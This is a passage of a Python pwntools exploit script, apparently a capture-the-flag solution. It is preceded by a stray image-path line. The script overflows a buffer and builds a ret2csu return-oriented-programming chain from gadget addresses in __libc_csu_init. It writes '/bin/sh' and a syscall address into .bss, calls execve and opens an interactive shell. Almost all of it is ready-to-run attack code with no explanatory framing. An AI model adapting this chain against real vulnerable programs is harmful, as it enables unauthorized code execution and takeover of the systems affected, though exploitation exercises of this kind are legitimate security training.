```python
    0x004005ce      pop r13
    0x004005d0      pop r14
    0x004005d2      pop r15
    0x004005d4      ret
    """
    csu_one = 0x4005ca

    """
    0x004005b0      mov rdx, r15       ; char **ubp_av
    0x004005b3      mov rsi, r14       ; int argc
    0x004005b6      mov edi, r13d      ; func main
    0x004005b9      call qword [r12 + rbx*8]
    """
    csu_two = 0x4005b0

    pop_rsi_r15_ret = next(e.search(asm('pop rsi; pop r15; ret')))
    ptr_bin_sh = e.bss()
    ptr_syscall = ptr_bin_sh + 8

    payload = b"A"*limit
    payload += p64(pop_rsi_r15_ret)     # prepare additional `read`
    payload += p64(ptr_bin_sh)          # rsi - read dest
    payload += p64(0xdeadc0de)          # r15 - junk
    # ret
    payload += p64(e.sym.read)          # read in bin/sh and syscall to .bss
    # ret
    payload += p64(csu_one)             # kick off register setup with ret2csu
    payload += p64(0)                   # pop rbx
    payload += p64(0)                   # pop rbp
    payload += p64(ptr_syscall)         # pop r12 -> call [r12+rbx*8]
    payload += p64(ptr_bin_sh)          # pop r13 -> rdi
    payload += p64(0)                   # pop r14 -> rsi
    payload += p64(0)                   # pop r15 -> rdx
    # ret
    payload += p64(csu_two)             # stage 2 finishes -> register setup
    io.sendline(payload)

    syscall = next(e.search(asm('syscall')))
    payload = b"/bin/sh\x00" + p64(syscall)
    payload = payload.ljust(c.SYS_execve, b"\x00")
    io.send(payload)
    io.interactive()


if __name__ == "__main__":
    gdbrc = """
    # b read
    # b *__libc_csu_init+73
    # c
    """
    io = init(gdbrc)
    main(io)
```


